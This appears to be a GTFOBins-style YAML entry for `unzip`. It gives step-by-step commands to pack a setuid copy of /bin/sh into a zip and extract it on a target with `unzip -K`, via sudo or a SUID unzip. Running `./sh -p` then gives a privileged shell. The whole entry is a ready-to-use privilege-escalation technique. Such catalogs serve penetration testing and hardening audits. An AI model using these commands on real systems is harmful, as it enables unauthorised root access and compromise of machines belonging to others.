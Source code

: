 description: |
  Certain `unzip` versions allows to preserve the SUID bit. Prepare an archive beforehand with the following commands as root:

  ```
  cp /bin/sh .
  chmod +s sh
  zip shell.zip sh
  ```

  Extract it on the target, then run the SUID shell as usual (omitting the `-p` where appropriate).
functions:
  sudo:
    - code: |
        sudo unzip -K shell.zip
        ./sh -p
  suid:
    - code: |
        ./unzip -K shell.zip
        ./sh -p
---
